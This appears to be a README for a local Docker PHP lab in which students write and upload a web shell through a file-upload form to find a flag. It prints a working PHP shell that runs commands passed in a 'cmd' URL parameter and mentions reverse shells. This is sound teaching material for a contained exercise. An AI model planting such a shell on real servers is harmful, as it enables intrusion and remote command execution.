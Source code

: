 ## PHP Vuln LAB

### Setup
1. To run the lab, make sure you have docker engine installed. The lab can be started by changing directories `cd LAB` and then you can start the container by running `sudo docker-compose up --build --remove-orphans`.

2. Open your web browser and navigate to `http://localhost:8080/`

### Building the Malware

We want to see whats hiding in the criminals webserver. Why don't we exploit the fact that they are using PHP and write some malware! Maybe we can create a shell and run commands to see what's inside.

1. Create a file called `shell.php`, or whatever name you want to call your malware. (We are writing with php so feel free to obfuscate as you'd like for practice. You'll get brownie points?)

2. We want to be able to execute shell commands from the URL or setup a reverse shell. Refer to Dr. O'learys Cyber Operations text book for details on how to setup reverse shells, and/or look into what a netcat listener is. Brownie Points for making a reverse shell, however for this lab we will just be focusing on pumping commands through the URL field in our browser.

- How can we execute shell commands through our browser? We want the server to recognize our GET requests as shell commands with the input `cmd`. Here is an example of how I would build mine:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = ($_GET['cmd']);
    // We want to be able to view the output. Is the following necessary?
    echo "<pre>";
    $output = shell_exec($cmd);
    echo $output;
    echo "</pre>";
    exit; // Exit after executing the command
}
?>
```
3. Upload your fresh and snazzy malware to the upload link and navigate to `http://localhost:8080/uploads/`. Use your intuition from here to see if you can inject some commands and locate the super secret flag!

Example Input:
`http://localhost:8080/uploads/shell.php?cmd=whoami`
